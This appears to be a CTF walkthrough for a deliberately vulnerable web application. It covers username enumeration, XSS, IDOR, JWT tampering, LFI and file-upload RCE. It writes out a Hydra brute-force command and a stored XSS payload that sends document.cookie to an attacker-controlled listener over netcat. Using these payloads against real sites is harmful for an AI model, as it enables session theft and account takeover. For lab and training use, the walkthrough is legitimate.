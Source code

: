 # CTF Web Application Walkthrough

## Overview

This walkthrough provides a step-by-step guide on how to solve all the flags hidden within the vulnerable web application from the [ASI KARIKAS 2025 competition](https://asikarikas.ee/).

---

## Flag 1: Username Enumeration and Password Brute-Force

**Vulnerability Type**: Username Enumeration and Brute Force  
**Flag Location**: Flag is shown after getting access to the only account whose password is brute-forceable.

### Steps:

1. Navigate to /Profile
![alt text](readme_images/1.png)

2. Find out what is the network response to a failed login request
![alt text](readme_images/2.png)

3. Find out the request parameters
![alt text](readme_images/3.png)

4. Download username and password wordlists (or use the ones included in /vulns/wordlists)
5. Install Hydra
6. Set the parameters and run Hydra against the log-in form:
   ```hydra -L usernames.txt -p dummy_password http-post-form "http://127.0.0.1/api/login:username=^USER^&password=^PASS^:F={\"Username does not exist\"}"```
   hydra -L usernames.txt -p dummy_password 127.0.0.1 http-post-form "/api/login:username=^USER^&password=^PASS^:F={\"error\":\"Username does not exist\"}"



1. Navigate to the login page and observe the response when entering invalid usernames. There may be differences in the error message for incorrect usernames vs passwords.
2. Use this to enumerate valid usernames.
3. Once you have a valid username, perform a brute-force attack on the password using a tool like Hydra or Burp Suite Intruder.
4. After logging in successfully, the flag will be accessible on the profile page or in the user dashboard.

---

## Flag 2: Cross-Site Scripting (XSS)

**Vulnerability Type**: Stored XSS  
**Flag Location**: In another user’s session cookies.

### Steps:
1. Create an XSS payload that sends cookies a server you control
   ```<script>
   fetch('http://127.0.0.1:1234', {  // CHANGE THIS TO YOUR IP
      method: 'POST',
      mode: 'no-cors',
      body: document.cookie
   });
   </script>```
   You can find this same exact code in /vulns/xss vuln/stored_xss_vuln.html

2. Install netcat (preferably on a linux instance) and set it to listen mode
   ```nc -lvnp 1234```
   ![alt text](readme_images/7.png)

3. Navigate to /
![alt text](readme_images/4.png)

4. Choose the first offer that has higher traffic than other offer

![alt text](readme_images/5.png)

5. Add the XSS payload as a review
![alt text](readme_images/6.png)

6. Look at your listener and extract the flag along with the cookies
![alt text](readme_images/8.png)

---

## Flag 3: Client-Side Validation Bypass

**Vulnerability Type**: Client-Side Validation Bypass  
**Flag Location**: /Profile page.

### Steps:
1. Go to the page where you can purchase items (likely through the shop interface).
2. Examine the client-side code (JavaScript) for validation checks (e.g., checking available funds).
3. Modify the client-side code to bypass or adjust the validation (using browser developer tools).
4. Complete the transaction and navigate to your profile (/Profile) to view the flag.

---

## Flag 4: Insecure Direct Object References (IDOR)

**Vulnerability Type**: IDOR  
**Flag Location**: Accessing user account with ID=1.

### Steps:
1. Find a URL or API endpoint where the user ID is exposed (e.g., `/user?id=2`).
2. Change the ID parameter in the URL to `1` (e.g., `/user?id=1`).
3. Access the page and look for a flag displayed in the user’s profile or data.

---

## Flag 5: JWT Token Manipulation

**Vulnerability Type**: JWT Manipulation  
**Flag Location**: /admin page.

### Steps:
1. Analyze the JWT token stored in your session (likely in a cookie or local storage).
2. Decode the token and examine the payload for potential weaknesses.
3. Modify the token (e.g., change the role or permissions) and re-encode it.
4. Send the modified token back to the server and access the admin area (/admin).
5. The flag will be visible in the admin section.

---

## Flag 6: Local File Inclusion (LFI)

**Vulnerability Type**: LFI  
**Flag Location**: C:\Windows\System32\drivers\etc\hosts

### Steps:
1. Look for a poorly sanitized file inclusion endpoint (e.g., `/viewfile?filename=`).
2. Manipulate the `filename` parameter to point to system files (e.g., `../../../etc/hosts`).
3. Access the file and find the flag hidden in the contents.

---

## Flag 7: File Upload Vulnerability (RCE)

**Vulnerability Type**: Remote Code Execution via File Upload  
**Flag Location**: After gaining shell access.

### Steps:
1. Locate the file upload functionality.
2. Upload a reverse shell payload (e.g., PHP, JSP, or Python).
3. Trigger the payload to execute on the server.
4. Gain shell access to the server and escalate privileges.
5. Search for the flag on the server.

---

## Conclusion

Gongratulations! You have sucessfully found all 7 flags!

---

## License

This project is licensed under the GNU General Public License (GPL) Version 3 - see the [LICENSE](LICENSE) file for details.

---

## Acknowledgments

- This project was created ONLY for educational purposes.
- Thanks to ASI KARIKAS for hosting such an interesting competition.

---

## Credits / Authors

- **Developers**: LellerLololol and PixelsJr
- **Team**: PixelJaTeised
